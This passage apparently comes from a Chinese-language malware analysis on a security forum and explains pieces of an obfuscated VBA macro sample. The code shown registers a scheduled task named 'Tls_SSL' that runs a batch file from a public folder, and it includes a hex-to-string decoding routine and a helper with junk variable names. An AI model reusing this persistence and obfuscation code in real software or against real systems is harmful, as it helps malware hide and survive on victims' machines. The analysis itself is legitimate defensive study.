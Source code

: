 ```vb
trigger.ID = "TimeTriggerId"
trigger.Enabled = True

Dim Action
Set Action = taskDefinition.Actions.Create(ActionTypeExec)
Action.Path = "C:\Users\Public\Music\pbs.bat"

Call rootFolder.RegisterTaskDefinition( _
    "Tls_SSL", taskDefinition, 6, , , 3)
    Call zxcvbnmgfdsaqweryu
End Sub

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-b0d00fb2b70bf9019ec159b8c8c44dc3d65b69b0.png)

#### XmlTime 函数：

重整时间格式，用 &amp; 符拼接，返回 XmlTime = 年:月:日 T 时:分:秒

```vb
Function XmlTime(t)
    Dim gETXNJmVtLZpiBaFSSQnWkeUHdvjdESHEDSNpHmNkvfTPV, nFhSByQJrazDhmDiTLuihHkmfWfbFxWpmNbXpyqcZnkaBM, ybqHrbKvvLHdxPfwDxRUNxegNZQmredAijhXjVKEwVRbzi, AvwhtGLmKyavxqrgQgTuLuQwQtxNqVByCZzRFnLNpCHhdP, LpiCPZdgpiAPYAHHmYxPikteGxzhkPecRNetaGvmjAcCSf, yMCKinzZrZTraEySaXYULWxTpdLJdKQnEAWzCRFZqvVZaP
    Dim tTime, tDate

    gETXNJmVtLZpiBaFSSQnWkeUHdvjdESHEDSNpHmNkvfTPV = "0" &amp; Second(t)
    nFhSByQJrazDhmDiTLuihHkmfWfbFxWpmNbXpyqcZnkaBM = "0" &amp; Minute(t)
    ybqHrbKvvLHdxPfwDxRUNxegNZQmredAijhXjVKEwVRbzi = "0" &amp; Hour(t)
    AvwhtGLmKyavxqrgQgTuLuQwQtxNqVByCZzRFnLNpCHhdP = "0" &amp; Day(t)
    LpiCPZdgpiAPYAHHmYxPikteGxzhkPecRNetaGvmjAcCSf = "0" &amp; Month(t)
    yMCKinzZrZTraEySaXYULWxTpdLJdKQnEAWzCRFZqvVZaP = Year(t)

    tTime = Right(ybqHrbKvvLHdxPfwDxRUNxegNZQmredAijhXjVKEwVRbzi, 2) &amp; ":" &amp; Right(nFhSByQJrazDhmDiTLuihHkmfWfbFxWpmNbXpyqcZnkaBM, 2) &amp; _
        ":" &amp; Right(gETXNJmVtLZpiBaFSSQnWkeUHdvjdESHEDSNpHmNkvfTPV, 2)
    tDate = yMCKinzZrZTraEySaXYULWxTpdLJdKQnEAWzCRFZqvVZaP &amp; "-" &amp; Right(LpiCPZdgpiAPYAHHmYxPikteGxzhkPecRNetaGvmjAcCSf, 2) &amp; "-" &amp; Right(AvwhtGLmKyavxqrgQgTuLuQwQtxNqVByCZzRFnLNpCHhdP, 2)
    XmlTime = tDate &amp; "T" &amp; tTime
End Function

```

#### TringTring 函数：

接受 16 进制数组，把两个 16 进制数，即 8 个字节，转换成一个 ASCII 字符，最后把转换后的字符拼接起来

```vb
 Public Function TringTring(ByVal HexToStr As String) As String
Dim strTemp   As String
Dim strReturn As String
Dim i         As Long
    For i = 1 To Len(HexToStr) Step 2
        strTemp = Chr$(Val("&amp;H" &amp; Mid$(HexToStr, i, 2)))
        strReturn = strReturn &amp; strTemp
    Next i
    TringTring = strReturn
End Function
```
